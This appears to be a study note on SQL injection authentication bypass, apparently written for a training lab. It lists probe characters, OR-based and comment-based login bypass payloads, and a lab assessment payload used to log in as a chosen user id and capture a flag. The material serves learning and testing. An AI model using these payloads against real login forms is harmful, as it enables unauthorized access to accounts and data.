 # Subverting Query Logic

## Authentication Bypass

Example of original query at backend.

```sql
SELECT * FROM logins WHERE username='admin' AND password = 'p@ssw0rd';
```

### Test if web is vulnerable to SQLi

| Payload | URL Encoded |
| ------- | ----------- |
| `'`     | `%27`       |
| `"`     | `%22`       |
| `#`     | `%23`       |
| `;`     | `%3B`       |
| `)`     | `%29`       |

> In some cases, we may have to use the URL encoded version of the payload. An example of this is when we put our payload directly in the URL 'i.e. HTTP GET request'.

If it's vulnerable it will throw error instead of intended message 'i.e., login failed, authentication failed, etc.'

```sql
SELECT * FROM logins WHERE username=''' AND password = 'something';
```

### Bypass using OR Injection

```sql
SELECT * FROM logins WHERE username='admin' or '1'='1' AND password = 'something';
```

* If username is `admin`\
  `OR`
* If `1=1` return `true` 'which always returns `true`'\
  `AND`
* If password is `something`

#### Assessment

<figure><img src="../../.gitbook/assets/image (20).png" alt=""><figcaption><p>vuln to SQLi</p></figcaption></figure>

```sql
SELECT * FROM logins WHERE username=''' AND password = '';
```

**bypass login**

<pre><code><strong># Username
</strong>asdf' or '1'='1
# Password
asdf' or '1'='1
</code></pre>

```sql
SELECT * FROM logins WHERE username='asdf' or '1'='1' AND password = 'asdf' or '1'='1';
```

<figure><img src="../../.gitbook/assets/image (94).png" alt=""><figcaption><p>Bypassed</p></figcaption></figure>

```
# Username
tom' ='1'='1
# Password
anything
```

since the username query is true by it self, the password could be anything and the statement will still be true.

### Bypass using Comments

We can use two types of line comments with MySQL `--` and `#`, in addition to an in-line comment `/**/`

```shell-session
mysql> SELECT username FROM logins; -- Selects usernames from the logins table 

+---------------+
| username      |
+---------------+
| admin         |
| administrator |
| john          |
| tom           |
+---------------+
4 rows in set (0.00 sec)
```

{% hint style="info" %}
if you are inputting your payload in the URL within a browser, a (#) symbol is usually considered as a tag, and will not be passed as part of the URL. In order to use (#) as a comment within a browser, we can use '%23', which is an URL encoded (#) symb
{% endhint %}

```sql
SELECT * FROM logins WHERE username='admin'-- ' AND password = 'something';
```

#### Assessment

Login as the user with the id 5 to get the flag.

Original query

```sql
SELECT * FROM logins WHERE (username=''' AND id > 1) AND password = 'xxx';
```

Payload

```
# Username
adasdfmin') OR id = 5 -- -
```

Final query

<pre class="language-sql"><code class="lang-sql"><strong>SELECT * FROM logins WHERE (username='adasdfmin') OR id = 5 -- -' AND id > 1) AND password = 'xxx';
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (95).png" alt=""><figcaption></figcaption></figure>



























